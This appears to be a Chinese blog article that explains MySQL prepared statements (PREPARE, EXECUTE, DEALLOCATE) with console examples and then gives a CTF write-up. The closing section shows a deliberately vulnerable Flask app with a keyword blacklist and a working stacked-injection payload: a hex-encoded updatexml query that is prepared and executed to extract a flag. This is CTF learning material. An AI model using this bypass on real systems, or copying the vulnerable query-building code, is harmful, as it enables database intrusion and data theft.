


0x01 前言
写此文章的来源是做CTF题目时遇到了mysql注入，且那道题的思路是根据MySQL支持的prepare预处理来进行绕过。以前也没了解过，故在此写一篇文章来记录一下。
0x02 Prepare
2.1 简介
多次执行一条 SQL 语句时，如果每次都处理该 SQL 语句，生成执行计划，必然会浪费一定的时间。
SQL预处理（Prepare），是一种特殊的 SQL 处理方式；预处理不会直接执行 SQL 语句，而是先将 SQL 语句编译，生成执行计划，然后通过 Execute 命令携带 SQL 参数执行 SQL 语句。
Prepare 的使用十分广泛，绝大多数 ORM 框架都有 API 支持；
Prepare 既可以提升 SQL 执行性能，还能防止 SQL 注入引发的安全问题；
Prepare 虽然在每个数据库中的语法差异很大，但是一般情况下我们都不会手写 SQL，而是使用 ORM 框架来做；2.1 由来
从mysql服务器执行sql的过程来看，SQL执行过程包括以下阶段 词法分析->语法分析->语义分析->执行计划优化->执行。
词法分析->语法分析这两个阶段我们称之为硬解析。
词法分析识别sql中每个词；
语法分析解析SQL语句是否符合sql语法，并得到一棵语法树（Lex）。
对于只是参数不同，其他均相同的sql，它们执行时间不同但硬解析的时间是相同的。而同一SQL随着查询数据的变化，多次查询执行时间可能不同，但硬解析的时间是不变的。所以对于sql执行时间较短，sql硬解析的时间占总执行时间的比率越高。
Prepare的出现就是为了优化硬解析的问题。
虽然Prepare在execute阶段可以节省硬解析的时间。但如果sql只执行一次，且以prepare的方式执行，那么sql执行需两次与服务器交互（Prepare和execute）, 而以普通（非prepare）方式，只需要一次交互。这样使用prepare会带来额外的网络开销，得不偿失。
如果同一sql需要执行多次，比如：以prepare方式执行10次，那么只需要一次硬解析。这时候额外的网络开销就显得微乎其微了；因此prepare更适用于频繁执行的SQL中。
0x03 SQL语句的执行处理
3.1 即时 SQL
一条 SQL 在 DB 接收到最终执行完毕返回，大致的过程如下：
1. 词法和语义解析；
2. 优化 SQL 语句，制定执行计划；
3. 执行并返回结果；如上，一条 SQL 是走流程处理，一次编译，单次运行，此类普通语句被称作 Immediate Statements （即时 SQL）。
3.2 预处理 SQL
但是，绝大多数情况下，某需求可能会要求某一条 SQL 语句可能会被反复调用执行，或者每次执行的时候只有个别的值不同（比如 select 的 where 子句值不同，update 的 set 子句值不同，insert 的 values 值不同）。如果每次都需要经过上面的词法语义解析、语句优化、制定执行计划等，则效率就明显不行了。
所谓预编译语句就是将此类 SQL 语句中的值用占位符替代，可以视为将 SQL 语句模板化或者说参数化，一般称这类语句叫Prepared Statements。
预编译语句的优势在于归纳为：一次编译、多次运行，省去了解析优化等过程；此外预编译语句能防止 SQL 注入。
注意：
虽然是通过预处理 SQL 的方式一定程度的提高了效率，但是对于优化而言，最优的执行计划不是光靠 SQL 语句的模板化来实现的，
往往还是需要通过具体值来预估出成本代价。
0x04 Prepared SQL Statement Syntax
MySQL 官方将 prepare、execute、deallocate 统称为 PREPARE STATEMENT。翻译也就习惯的称其为预处理语句。
MySQL 预处理语句的支持版本较早，所以我们目前普遍使用的 MySQL 版本都是支持这一语法的。
语法：
# 定义预处理语句
PREPARE stmt_name FROM preparable_stmt;
# 执行预处理语句
EXECUTE stmt_name [USING @var_name [, @var_name] ...];
# 删除(释放)定义
{DEALLOCATE | DROP} PREPARE stmt_name;4.1 利用字符串定义预处理 SQL (直角三角形计算)
mysql> PREPARE stmt1 FROM 'SELECT SQRT(POW(?,2) + POW(?,2)) AS hypotenuse';
Query OK, 0 rows affected (0.00 sec)
Statement prepared
mysql> SET @a = 3;
Query OK, 0 rows affected (0.00 sec)
mysql> set @b = 4;
Query OK, 0 rows affected (0.00 sec)
mysql> execute stmt1 using @a, @b;
+------------+
| hypotenuse |
+------------+
| 5 |
+------------+
1 row in set (0.00 sec)4.2 利用变量定义预处理 SQL (直角三角形计算)
mysql> set @s = 'select sqrt(pow(?,2) + pow(?,2)) as hypotenuse';
Query OK, 0 rows affected (0.00 sec)
mysql> prepare stmt2 from @s;
Query OK, 0 rows affected (0.00 sec)
Statement prepared
mysql> set @c = 6;
Query OK, 0 rows affected (0.00 sec)
mysql> set @d = 8;
Query OK, 0 rows affected (0.00 sec)
mysql> execute stmt2 using @c, @d;
+------------+
| hypotenuse |
+------------+
| 10 |
+------------+
1 row in set (0.00 sec)4.3 解决无法传参问题
我们知道，对于 LIMIT 子句中的值，必须是常量，不得使用变量，也就是说不能使用：SELECT * FROM TABLE LIMIT @skip, @numrows; 但是，可以用 PREPARE 语句解决此问题。
mysql> SET @skip = 100; SET @numrows = 3;
Query OK, 0 rows affected (0.00 sec)
Query OK, 0 rows affected (0.00 sec)
mysql> SELECT * FROM t1 LIMIT @skip, @numrows;
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '@skip, @numrows' at line 1
mysql> PREPARE stmt3 FROM "SELECT * FROM t1 LIMIT ?, ?";
Query OK, 0 rows affected (0.00 sec)
Statement prepared
mysql> EXECUTE stmt3 USING @skip, @numrows;
+-----+--------+
| a | filler |
+-----+--------+
| 100 | filler |
| 101 | filler |
| 102 | filler |
+-----+--------+
3 rows in set (0.00 sec)
mysql> DEALLOCATE PREPARE stmt3;
Query OK, 0 rows affected (0.00 sec) 如此一来，结合2中介绍的利用变量定义预处理 SQL 也就基本解决了传参时语法报错问题了，类似的：用变量传参做表名时，
MySQL 会把变量名当做表名，这样既不是本意，也不是语法错误，在 SQL Server 的解决办法是利用字符串拼接穿插变量进行传参，再将
整条 SQL 语句作为变量，最后是用 sp_executesql 调用该拼接 SQL 执行，而 Prepared SQL Statement 可谓异曲同工之妙。
mysql> SET @table = 't2';
Query OK, 0 rows affected (0.00 sec)
mysql> SET @s = CONCAT('SELECT * FROM ', @table);#字符串拼接
Query OK, 0 rows affected (0.00 sec)
mysql> PREPARE stmt4 FROM @s;
Query OK, 0 rows affected (0.00 sec)
Statement prepared
mysql> EXECUTE stmt4;
+------+-------+-------+
| id | score | grade |
+------+-------+-------+
| 1 | 99 | A |
| 2 | 81 | B |
| 3 | 55 | D |
| 4 | 69 | C |
+------+-------+-------+
4 rows in set (0.00 sec)
mysql> DROP PREPARE stmt4;
Query OK, 0 rows affected (0.00 sec)0x05 预处理 SQL 注意点
1、stmt_name 作为 preparable_stmt 的接收者，唯一标识，不区分大小写。
2、preparable_stmt 语句中的 ? 是个占位符，所代表的是一个字符串，不需要将 ? 用引号包含起来。
3、定义一个已存在的 stmt_name ，原有的将被立即释放，类似于变量的重新赋值。
4、PREPARE stmt_name 的作用域是session级

可以通过 max_prepared_stmt_count 变量来控制全局最大的存储的预处理语句。
mysql> show variables like "max_prepared%";
ERROR 2006 (HY000): MySQL server has gone away
No connection. Trying to reconnect...
Connection id: 4
Current database: *** NONE ***
+-------------------------+-------+
| Variable_name | Value |
+-------------------------+-------+
| max_prepared_stmt_count | 16382 |
+-------------------------+-------+
1 row in set, 3 warnings (0.01 sec)预处理编译 SQL 是占用资源的，所以在使用后注意及时使用 DEALLOCATE PREPARE 释放资源，这是一个好习惯。
0x06 实战体悟
在这里根据上述学的来重新做一下那道CTF题目，加深印象。
from flask import Flask, render_template, request
import MySQLdb
import re
blacklist = ['select', 'update', 'insert', 'delete', 'database', 'table', 'column', 'alter', 'create', 'drop', 'and', 'or', 'xor', 'if', 'else', 'then', 'where']
conn = MySQLdb.connect(host='db', port=3306, user='root', passwd='root', db='ctf')
app = Flask(__name__)
@app.route('/')
def index():
field = request.args.get('order', 'id')
field = re.sub(r'\s+', '', field)
for s in blacklist:
if s.lower() in field.lower():
return s + ' are banned'
if not re.match(r"id|name|email", field):
field = 'id'
with conn.cursor() as cursor:
cursor.execute('SELECT * FROM userinfo order by %s' % field)
res = cursor.fetchall()
return render_template('index.html', res=res)
if __name__ == '__main__':
app.run(host='0.0.0.0', port=8000, debug=True)这里看上述源码发现，黑名单过滤很全，并且sqlmap也跑不出来。随后陷入只是盲区，看了hint发现cursor.execute可以执行多条语句，由此可以发现这里有堆叠注入的可能（题后反思：这里呢提示我在日后分析代码的时候，学会去找敏感函数，搜寻一下各类函数的用法，说不定就找到漏洞点了）。
那我们直接构造一波prepare语句，既然是预处理了，那完全没必要担心黑名单这个点了。这里呢wp是采用的变量定义预处理SQL
//报错注入语句,这里注意报错回显数据是有限的
select updatexml(1, concat(0x7e, substr((select flag from flag), 1, 31), 0x7e), 1);
//接着构造预处理SQL
id;set/**/@a=0x73656c65637420757064617465786d6c28312c636f6e63617428307837652c2873656c65
637420737562737472282873656c65637420666c61672066726f6d20666c6167292c312c333129292c30783
765292c31293b;prepare/**/stmt/**/from/**/@a;execute/**/stmt;这里呢需要进行hex编码的原因是绕过黑名单，由于你这个预处理SQL直接是与MySQL数据库交互，而MySQL是会自动解析16进制并去解码的，故此这里hex编码是必要的。其次使用内联注释符/**/的原因是re.sub这里的函数会过滤掉我们输入的空格字符，因此注释符也是必要的。
这里是set一个变量，并赋值为恶意代码，随后prepare定义预处理语句，接着execute执行预处理语句。

回显flag